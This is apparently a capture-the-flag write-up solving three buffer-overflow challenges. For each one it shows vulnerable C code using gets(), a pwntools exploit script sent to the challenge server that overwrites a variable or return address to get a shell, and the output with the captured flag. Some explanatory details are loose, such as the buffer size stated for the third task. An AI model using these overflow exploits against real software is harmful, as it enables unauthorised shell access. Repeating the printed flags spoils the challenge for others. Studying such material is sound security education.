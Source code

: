 # Overflow 1 (125 points)

## Description

ez overflow.

nc cyberyoddha.baycyber.net 10001

[Overflow1](Overflow1);
[Overflow1.c](overflow1.c)

## Solution

Here is the file we were given.

```c
int main(void) {
  char str[] = "AAAA";
  char buf[16];

  gets(buf);
  
  if (!(str[0] == 'A' && str[1] == 'A' && str[2] == 'A' && str[3] == 'A')){
    system("/bin/sh");
  }
}
```

Buffer is defined as 16, so let's write small python script using pwntools.

```python
from pwn import *

payload = "A"*16

s = remote("cyberyoddha.baycyber.net", 10001)
s.sendline(payload)
s.interactive()
```
```shell
$ python overflow1.py
[+] Opening connection to cyberyoddha.baycyber.net on port 10001: Done
[*] Switching to interactive mode
$ ls
flag.txt
overflow1
$ cat flag.txt
CYCTF{st@ck_0v3rfl0ws_@r3_3z}
```

This task can be done easier: just enter 16 A using nc and get the flag

Flag: CYCTF{st@ck_0v3rfl0ws_@r3_3z}

# Overflow 2 (225 points)

## Description

ez overflow (or is it?)

nc cyberyoddha.baycyber.net 10002

[Overflow2](Overflow2);
[Overflow2.c](overflow2.c)

## Solution

Here is the file we were given.

```c
void run_shell(){
	system("/bin/sh");
}

void vuln(){
	char buf[16];
	gets(buf);
}

int main(void) {
	vuln();  
}
```

So we need to jump over to **run_shell** function using buffer overflow.
[Writeup for a similar task](https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/)

Let's find address of **run_shell** function using **objdump**

```shell
$ objdump -d overflow2
...
08049172 <run_shell>:                
 8049172:       55                      push   %ebp
 8049173:       89 e5                   mov    %esp,%ebp
 8049175:       53                      push   %ebx
 8049176:       83 ec 04                sub    $0x4,%esp
 8049179:       e8 63 00 00 00          call   80491e1 <__x86.get_pc_thunk.ax>
 804917e:       05 82 2e 00 00          add    $0x2e82,%eax
 8049183:       83 ec 0c                sub    $0xc,%esp
...
```

Address is **0x8049172** and buffer size is 28. Now let's open python and write another script:

```python
from pwn import *

payload = "A"*28
payload += p32(0x8049172)
s = remote("cyberyoddha.baycyber.net", 10002)
s.sendline(payload)
s.interactive()
```
```shell
$ python overflow2.py
[+] Opening connection to cyberyoddha.baycyber.net on port 10002: Done
[*] Switching to interactive mode
$ ls
flag.txt
overflow2
$ cat flag.txt
CYCTF{0v3rfl0w!ng_v@ri@bl3$_i$_3z}
```

Flag: CYCTF{0v3rfl0w!ng_v@ri@bl3$_i$_3z}

# Overflow 3 (250 points)

## Description

looks like buffer overflows aren’t so easy anymore.

nc cyberyoddha.baycyber.net 10003

[Overflow3](Overflow3);
[Overflow3.c](overflow3.c)

## Solution

Here is the file we were given.

```c
int main(void) {
	long vuln = 0;
        char buf[16];

	gets(buf);

	if (vuln == 0xd3adb33f){
		system("/bin/sh");
	}
}
```

Address is **0xd3adb33f** and buffer size is 16. Now let's open python and write another script:

```python
from pwn import *

payload = "A"*28
payload += p32(0xd3adb33f)
s = remote("cyberyoddha.baycyber.net", 10003)
s.sendline(payload)
s.interactive()
``` 
```shell
$ python overflow3.py
[+] Opening connection to cyberyoddha.baycyber.net on port 10003: Done
[*] Switching to interactive mode
$ ls
flag.txt
overflow3
$ cat flag.txt
CYCTF{wh0@_y0u_jump3d_t0_th3_funct!0n}
```

Flag: CYCTF{wh0@_y0u_jump3d_t0_th3_funct!0n}